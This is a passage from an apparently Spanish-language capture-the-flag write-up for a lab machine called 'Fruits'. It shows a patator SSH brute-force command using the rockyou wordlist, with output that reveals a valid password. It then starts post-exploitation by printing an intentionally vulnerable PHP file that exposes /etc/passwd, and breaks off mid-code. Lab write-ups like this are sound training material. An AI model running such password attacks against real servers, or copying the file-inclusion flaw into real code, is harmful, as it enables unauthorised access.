 <br>

<h3 id="Patator">Utilizando patator Contra Servicio SSH</h3>

Al igual que **ncrack** fue bastante sencilla y rápida de usar, pero no supe cómo impedir que siguiera probando contraseñas, por lo que debes hacer tú mismo y estar pendiente del resultado:
```bash
patator ssh_login host=192.168.1.20 user=bananaman password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:mesg='Authentication failed.'
15:58:42 patator    INFO - Starting Patator 1.0 (https://github.com/lanjelot/patator) with python-3.12.8 at 2025-01-02 15:58 CST
15:58:42 patator    INFO -                                                                              
15:58:42 patator    INFO - code  size    time | candidate                          |   num | mesg
15:58:42 patator    INFO - -----------------------------------------------------------------------------
15:58:58 patator    INFO - 1     53     3.433 | andrew                             |    55 | Authentication failed: transport shut down or saw EOF
15:58:58 patator    INFO - 1     53     3.434 | playboy                            |    59 | Authentication failed: transport shut down or saw EOF
15:58:58 patator    INFO - 1     53     3.452 | angels                             |    56 | Authentication failed: transport shut down or saw EOF
15:58:58 patator    INFO - 1     53     3.437 | hello                              |    60 | Authentication failed: transport shut down or saw EOF
15:58:59 patator    INFO - 1     53     1.722 | amanda                             |    51 | Authentication failed: transport shut down or saw EOF
15:58:59 patator    INFO - 1     53     1.721 | loveyou                            |    52 | Authentication failed: transport shut down or saw EOF
...
...
...
15:59:55 patator    INFO - 1     53     3.437 | october                            |   236 | Authentication failed: transport shut down or saw EOF
15:59:56 patator    INFO - 0     38     0.101 | celtic                             |   250 | SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u2
16:00:09 patator    INFO - 1     53     3.430 | natalie                            |   294 | Authentication failed: transport shut down or saw EOF
```
Aun así, obtuvimos el mismo resultado.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Root">Enumeración de la Máquina y Escalando Privilegios con Comando find</h2>

Antes que nada, me pico la curiosidad de cómo se pudo aplicar el **LFI**, por lo que al revisar el archivo **fruits.php** en la ruta `/var/www/html`, nos muestra lo siguiente:
```bash
bananaman@Fruits:~$ ls /var/www/html/
fruits.php  frutas.jpg  index.html
bananaman@Fruits:~$ cat /var/www/html/fruits.php
<?php
// Obtener el nombre del archivo solicitado desde el parámetro 'file'
$file = $_GET['file'];

// Verificar si el archivo solicitado es "/etc/passwd"
if ($file === '/etc/passwd') {
    // Mostrar el contenido del archivo /etc/passwd
    echo "<pre>";
    echo file_get_contents('/etc/passwd');
```